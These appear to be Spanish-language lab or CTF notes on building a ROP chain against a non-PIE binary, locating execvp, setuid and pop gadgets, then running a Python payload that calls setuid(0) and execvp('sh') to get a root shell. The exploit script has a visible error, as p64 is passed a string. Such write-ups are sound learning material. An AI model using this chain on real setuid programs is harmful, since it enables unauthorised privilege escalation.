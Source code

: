 

## Programa con funciones interesantes ya incluidas

Fuente: [Savitar-RedCross](https://www.youtube.com/watch?v=prg88ajxAPc)

Tenemos un binario que tiene las funciones "execvp" y "setuid", queremos usarlas pero pasandoles los argumentos que nos de la gana. El PIE desabilitado (direcciones
estáticas)   
Para ello hay que tirar de ROP y pasarle argumentos con las calling conventions(rdi, rsi, rdx, rcx, r8, r9)
Primeros buscamos tanto las funciones como los gadgets para usarlos luego:

```console
[cucuxii@parrot]~$: objdump -D ./binario | grep execv
0000000000400760 <execvp@plt>:               # -> 0x400760
[cucuxii@parrot]~$: objdump -D ./binario | grep setuid
0000000000400780 <setuid@plt>:               # -> 0x400780
[cucuxii@parrot]~$: ropper --search "pop rdi" -f ./binario 
0x0000000000400de3: pop rdi; ret;            # -> 0x400de3
[cucuxii@parrot]~$: ropper --search  "pop rsi" -f ./binario
0x0000000000400de1: pop rsi; pop r15; ret;   # -> 0x400de1
```
```console
gef > grep "sh"
0x40046e   "sh"
```
Execvp es una funcion que pide dos argumentos -> *execvp("sh", 0);* para ello hay que hacer un pop_rdi (primer argumento) y un pop_rsi (segundo argumento)  
Payload -> pop_rdi + sh + pop_rsi + null + execvp
Pero el gadget que nos ha encontrado "0x400de1" aparte de rsi carga un r15 extra, asi que hay que meter otro argumento más nulo para el r15

Tambien está setuid que hay que ejecutarla antes, como requiere de un solo argumento seria pop_rdi + 0 + setuid
```python3
junk = b"A"*18
execvp = p64(0x400760)
setuid = p64(0x400780)
pop_rdi = p64(0x400de3)
pop_rsi = p64(0x400de1)
sh = p64("0x40046e")
null = p64(0x00)

offset = junk
exec_setuid = pop_rdi + null + setuid
exec_execvp = pop_rdi + sh + pop_rsi + null + null + execvp
payload = offset + exec_setuid + exec_execvp

print(payload)
```
```console
[cucuxii@parrot]~$: (python /tmp/exploit.py; cat) | ./binario
whoami
root
```

--------------------------------------------------------------------------------
